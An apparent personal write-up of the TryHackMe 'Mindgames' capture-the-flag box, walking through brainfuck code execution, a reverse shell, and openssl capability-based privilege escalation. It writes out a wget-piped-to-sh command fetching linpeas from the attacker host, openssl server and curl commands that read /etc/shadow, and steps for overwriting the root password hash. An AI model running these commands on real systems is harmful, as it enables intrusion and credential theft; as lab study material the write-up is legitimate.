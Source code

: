 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh

i renamed it to kernel_exploit.sh and then got it on the target machine with over our http server.

Typicall problems: forget permission and then wrong format..

[![https://imgur.com/8sOrDJc.png](https://imgur.com/8sOrDJc.png)](https://imgur.com/8sOrDJc.png)

Okay this seems to be a dead end..

[![https://imgur.com/ksaBlg1.png](https://imgur.com/ksaBlg1.png)](https://imgur.com/ksaBlg1.png)

Lets look for other ways to proceed!
We found cap_setsuid ! 
[![https://imgur.com/HEP67KP.png](https://imgur.com/HEP67KP.png)](https://imgur.com/HEP67KP.png)

[![https://imgur.com/eWFs7uR.png](https://imgur.com/eWFs7uR.png)](https://imgur.com/eWFs7uR.png) CREDS TO: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities

[![https://imgur.com/zXzZZff.png](https://imgur.com/zXzZZff.png)](https://imgur.com/zXzZZff.png)


Here a short summary taken from the medium article full credits go to him (his name is: Z3R0 ): 

The following part i had to research and i found this awsome medium article about Linux Capabilities and how to use openssl
 with the capability set to ep to get root.

AGAIN CREDIT TO: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

Come here again when you fully understood it and give a good summary in own words.

1. So far i understood that you can use openssl to create keys and certificates. -> So we can create a keys and certificates
2. You can also start a server running with openssl. -> We can start a server with that keys and certificates
3. Depending on where you are when you have the capability of ep set on openssl it will inherit the permission from the location. -> We start the server with openssl in the / directory.
That means if you start the server from a low privileged userdirectory you will inherit that permission but if you create it in the / directory the server will inherit root permission.
4. We can access this server with wget or curl from our normal user. -> We can do something like: curl -k "https://127.0.0.1:1337/etc/shadow"
5. Now that we have a copy of the /etc/shadow file we can create our own password hash with openssl and with that we can replace the hash for the root user in the file. -> openssl passwd -6 -salt xyz  yourpass
6. Now we want to overwrite the orginial /etc/shadow file to do that we have to encrypt our new shadowfile otherwise we can't transport it over openssl.
7. Now we can overwrite the original file. -> /openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/privkey.pem -out /etc/shadow
8. We can switch User to root now since we created the new password!


The command for creating a private key and a certificate with openssl is:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

with the nodes option you avoid giving a passphrase.

Now we start the server in the root directory:

openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

Now that the server is running we can curl the resource we want!

curl -k "https://127.0.0.1:1337/etc/shadow" ( We could also just curl the root.txt :D )

The reason why need we need -k or --insecure
[![https://imgur.com/7AorKEQ.png](https://imgur.com/7AorKEQ.png)](https://imgur.com/7AorKEQ.png)


In case you get an error try following this solutions:

[![https://imgur.com/wJONvdY.png](https://imgur.com/wJONvdY.png)](https://imgur.com/wJONvdY.png)

It worked for me.

Nvm^ you need root privileges to overwrite..
